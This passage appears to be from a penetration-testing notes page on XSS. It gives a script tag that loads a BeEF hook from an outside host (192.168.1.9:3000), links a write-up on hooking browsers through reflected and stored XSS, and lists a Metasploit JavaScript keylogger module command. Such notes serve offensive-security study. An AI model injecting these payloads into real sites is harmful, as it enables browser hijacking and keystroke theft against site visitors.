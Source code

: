 ```
        .N0   lOXNX0x;  .KWWWWWWWWWWWNkc.                             
         :NO,         'lXWWWWWWWWWNk:.                                
          .dXN0OkxkO0NWWWWWWWWWWKl.                                   
             .';o0WWWWWWWWWWWNk;                                      
                  .cxOKXKKOd;.                                        
                                    
```



```javascript
<script src="http://192.168.1.9:3000/hook.js"></script>
```

<figure><img src=".gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (2) (1).png" alt=""><figcaption></figcaption></figure>

[WriteUP](https://medium.com/@secureica/hooking-victims-to-browser-exploitation-framework-beef-using-reflected-and-stored-xss-859266c5a00a)

### XSS - Keyloger

```
use auxiliary/server/capture/http_javascript_keylogger
run
```

<figure><img src=".gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

